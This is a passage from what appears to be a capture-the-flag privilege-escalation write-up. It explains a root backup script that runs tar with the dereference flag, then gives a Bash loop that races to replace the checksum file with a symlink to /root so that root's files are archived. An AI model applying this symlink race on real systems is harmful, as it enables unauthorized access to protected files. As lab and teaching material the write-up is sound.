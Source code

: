 
Just from the PSpy output it looks like the script is running `tar`, taking a
SHA1 hash, sleeping, checking the checksum, and then doing something else.

### backup.sh

Because it’s a simple shell script, I can read the contents as text:

    
    
    #!/bin/bash
    file=`date +%N`
    /usr/bin/rm -rf /opt/backups/*
    /usr/bin/tar -cvf "/opt/backups/$file.tar" /var/www/app/
    sha1sum "/opt/backups/$file.tar" | cut -d ' ' -f1 > /opt/backups/checksum
    sleep 5
    check_file=`date +%N`
    /usr/bin/tar -chvf "/var/backups/web_backups/${check_file}.tar" /opt/backups/checksum "/opt/backups/$file.tar"
    /usr/bin/rm -rf /opt/backups/*
    

`date +%N` returns the nanosecond porton of the current time. This effectively
gives a random number.

The script:

  * Removes all files and folders in `/opt/backups`.
  * Creates a Tar archive called `/opt/backups/[date str].tar` with the contents of `/var/www/app`.
  * Creates `/opt/backups/checksum` which contains the SHA1 hash of the new `.tar` file.
  * Sleeps for five seconds
  * Create a new Tar archive in `/var/backups/web_backups` containing the first archive and the checksum file.
  * Remove all files and folders from `/opt/backups`.

The second `tar` command adds `-h` to the parameters. From the [man
page](https://man7.org/linux/man-pages/man1/tar.1.html):

>
>     -h, --dereference
>       Follow symlinks; archive and dump the files they point to.
>  

### Exploit

To exploit this, I’m going to use a Bash loop to watch for the `checksum`
file, and replace it with a symbolic link to `/root`:

    
    
    while :; do 
    	if test -f checksum; then 
    		rm -f checksum; 
    		ln -s /root checksum; 
    		echo "Replaced checksum"; 
    		sleep 5; 
    		echo "Backup probably done now";
    		break;
    	fi; 
    	sleep 1; 
    done
    